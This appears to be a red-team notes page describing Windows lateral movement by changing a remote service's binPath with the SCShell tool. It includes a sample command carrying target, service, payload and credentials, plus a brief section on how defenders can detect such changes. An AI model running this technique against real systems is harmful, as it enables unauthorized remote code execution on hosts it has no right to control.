 # Lateral Movement Abusing Service Configuration Manager

It's possible to execute commands on a remote host by abusing service configuration manager by changing the service binpath to your malicious command and restarting the service so your payload gets executed - this is all automated by a nice tool [SCShell](https://github.com/Mr-Un1k0d3r/SCShell)

## Execution

Scshell expects the following arguments: target, service, payload, username, domain, password:

{% tabs %}
{% tab title="attacker@target" %}
```text
.\scshell.exe ws01 XblAuthManager "C:\windows\system32\cmd.exe /c echo 'lateral hello' > c:\temp\lat.txt" spotless offense 123456
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/scshell.gif)

## Considerations

From the defensive side, you may want to consider about monitoring services that change their binPaths "too often" as this may not be normal in your environment, especially if the binPath is "very" different \([Levenshtein](https://www.google.com/search?q=levenshtein+distance&oq=levensht&aqs=chrome.1.69i57j0l5.2647j0j7&sourceid=chrome&ie=UTF-8)\) to the previously known good value and if the service configuration is being changed over the network:

![](../../.gitbook/assets/image%20%28274%29.png)

## References

{% embed url="https://github.com/Mr-Un1k0d3r/SCShell" %}

